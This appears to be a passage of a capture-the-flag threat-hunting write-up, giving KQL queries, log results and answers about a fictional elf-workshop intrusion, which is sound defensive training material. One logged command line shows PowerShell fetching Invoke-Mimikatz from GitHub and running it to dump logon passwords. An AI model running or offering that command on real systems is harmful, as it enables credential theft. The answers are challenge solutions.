 Result:
```
"timestamp": 2024-11-29T12:25:03Z,
"hostname": WebApp-ElvesWorkshop,
"src_ip": 182.56.23.122,
"user_agent": Mozilla/5.0 (Windows NT 6.3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36,
"username": mijinglebellsworth,
"result": Successful Login,
"password_hash": 6a4b8f13abf0baf71d5685bdec9ee6f1,
"description": User successfully logged onto WebApp-ElvesWorkshop via RDP.
```
#### Question 6:
Q: *What was the script that was run to obtain credentials?*
A: `Invoke-Mimikatz.ps1`
Query:
```
ProcessEvents
| where hostname == "WebApp-ElvesWorkshop"
```

Offending result (8 total):
```
"timestamp": 2024-12-10T00:00:00Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug" "sekurlsa::logonpasswords",
"process_name": cmd.exe,
"process_hash": acb984e77fe41893cc10827bb8c5f4d97632b9fc76b33748e947183caa48
```
#### Question 7:
Q: *What is the timestamp where Noel executed the file?*
A: `2024-12-12T15:14:38Z`
Query:
```
ProcessEvents
| where username == "noboetie"
| where process_commandline contains "echo.exe"
```

Result:
```
"timestamp": 2024-12-12T15:14:38Z,
"parent_process_name": Explorer.exe,
"parent_process_hash": 00e563ac10db418d26a5e2bf2abbf80bfc4f7e9f4865a72dfe9ec59d26620f25,
"process_commandline": Explorer.exe "C:\Users\noboetie\Downloads\echo.exe",
"process_name": Explorer.exe,
"process_hash": dfa249867546156557f09b322999cad4f628246adca45f36f5bbe106bf6c3b73,
"hostname": Elf-Lap-A-Boetie,
"username": noboetie
```
#### Question 8:
Q: *What domain was the `holidaycandy.hta` file downloaded from?*
A: `compromisedchristmastoys.com`
Query:
```
OutboundNetworkEvents
| where url contains "holidaycandy.hta"
```
